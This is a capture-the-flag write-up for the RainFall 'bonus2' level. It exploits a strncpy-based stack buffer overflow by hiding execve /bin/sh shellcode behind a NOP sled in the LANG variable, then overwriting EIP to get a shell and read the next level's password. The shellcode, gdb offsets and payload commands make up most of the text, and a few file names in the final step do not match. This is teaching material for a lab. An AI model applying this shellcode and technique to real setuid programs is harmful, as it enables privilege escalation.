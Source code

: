 ## BONUS 2

Ressources:
- [Disassembled code](disassembled_code.md)
- [Source code](srcs/bonus2.c)

In this program, we have two functions `main()` and `greetuser()`. `main()` concatenates use `strncpy()` on `av[1]` and `av[2]` to concatenates those two strings in a buffer of 72 bytes, then it will search the environment variable `LANG` if it has been found and `LANG` start with `fi` the language value is 1, if LANG start with `nl` the language value is 2 and if LANG has not been found the language value is 0. Depending of the language value, `greetuser()` will concatenates a different message in a buffer with the previous string.

For exemple if a set `fi` as `LANG` value, the program will print:

``` shell
bonus2@RainFall:~$ ./bonus2 "Hey" "HowAreYou"
Hyvää päivää Hey
```

The program did not concatenates the two strings because it use `strncpy(..., 40)` that's means that if our string is not longer than 40 characters, it end up with a NULL character. So to create a string of size 72 we have to set a string longer than 40 characters.

```shell
./bonus2 $(python -c 'print ("A"*40)') "HowAreYou"
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHowAreYou
```

Perfect, if we take a look on the function `greetuser()` we can see that the function concatenates a message depending on the `language` value with the previous buffer. So we can try to overflow it.

```shell
bonus2@RainFall:~$ ./bonus2 $(python -c 'print ("A"*40)') $(python  -c 'print ("B"*32)')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
```

Excellent, we just have to use a **Buffer Overflow Attack**. But as many times before we need some informations before creating the payload.

**For all the information I will find, I will use an environment variable starting with `fi`.**

---

#### EIP

```shell
bonus2@RainFall:~$ gdb -q bonus2
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) r $(python -c 'print ("A"*40)') "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
Starting program: /home/user/bonus2/bonus2 $(python -c 'print ("A"*40)') "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```

The EIP offset is size of **18**.

---

#### Shellcode

I will use the same Shellcode as in the previous levels.

`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

But to this level we will use a different technique because we will inject the Shellcode in a environment variable.

`export LANG=$(python -c 'print("fi" + "\x90" * 200 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')`

---

#### ShellCode address

Now we need to know where this address is store.

```shell
(gdb) x/32s *((char **)environ)
0xbffff85b:	 "SHELL=/bin/bash"
0xbffff86b:	 "TERM=xterm-256color"
0xbffff87f:	 "SSH_CLIENT=192.168.56.1 63733 4242"
[...]
0xbffffe60:	 "PWD=/home/user/bonus2"
0xbffffe76:	 "LANG=fi\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311\315\200"
0xbffffef7:	 "LINES=52"
[...]
0xbffffffe:	 ""
```

Now we know that our variable is at the address `0xbffffe76` but i gonna add 16 bits to be sure. 

`0xbffffe76 + 0x10 = 0xbffffe86`

---

### Payload

We can now create our payloads.

`python -c 'print("\x90"*40)' > /tmp/payload_1`

`python -c 'print("\x90"*18 + "\x86\xfe\xff\xbf")' > /tmp/payload_2`'`

Perfect, we just have to inject the payloads into the program.

```shell
bonus2@RainFall:~$ ./bonus2 $(cat /tmp/payload_17) $(cat /tmp/payload_27)
Hyvää päivää ��������������������������������������������������������������
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```





